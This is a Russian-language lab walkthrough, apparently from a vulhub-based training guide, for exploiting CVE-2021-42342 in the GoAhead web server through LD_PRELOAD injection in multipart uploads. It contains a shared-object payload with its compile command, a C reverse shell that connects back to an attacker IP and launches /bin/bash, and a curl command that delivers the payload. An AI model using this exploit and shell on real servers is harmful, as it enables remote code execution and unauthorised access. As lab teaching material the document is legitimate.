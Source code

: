 # CVE-2021-42342

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-42342](https://nvd.nist.gov/vuln/detail/CVE-2021-42342)
* [https://cve.report/CVE-2021-42342](https://cve.report/CVE-2021-42342)
* [https://www.opencve.io/cve/CVE-2021-42342](https://www.opencve.io/cve/CVE-2021-42342)

В GoAhead 4.x и 5.x до версии 5.1.5 была обнаружена проблема. В фильтре загрузки файлов переменные формы пользователя могут быть переданы CGI-скриптам без префикса CGI. Это позволяет передавать переменные окружения в уязвимые CGI-скрипты.

Злоумышленник может использовать эту возможность для загрузки полезной нагрузки в виде разделяемого объекта в многокомпонентной форме и перехватить переменную окружения LD\_PRELOAD для выполнения произвольного кода.

Эта уязвимость является обходом патча CVE-2017-17562 (ссылка на страницу на гите)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2021-42342

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница GoAhead 3.6.4

\--- скрин web ----

CGI-скрипты доступны по адресу http://ваш-ip:8080/cgi-bin/index

\---- скрин страницы со скриптами ----

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC payload.c -o payload.so
```

Где payload.c - это файл с вышеупомянутым кодом

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Далее используйте [данный](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py) скрипт для реализации атаки

```
python poc.py http://target-ip:8080/cgi-bin/index /путь_до_файла/payload.so
```

В ответе мы можем видеть, что появился заголовок hello со значением World, что свидетельствует об успешном выполнении кода

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для получения обратной оболочки нужно провести те же манипуляции с кодом

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="ваш-ip";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

А затем выполнить команду:

```
curl -X POST  http://ваш-ip:8081/cgi-bin/ -F "LD_PRELOAD=/proc/self/fd/0" -F file='@имя_файла.so;encoder=base64'
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
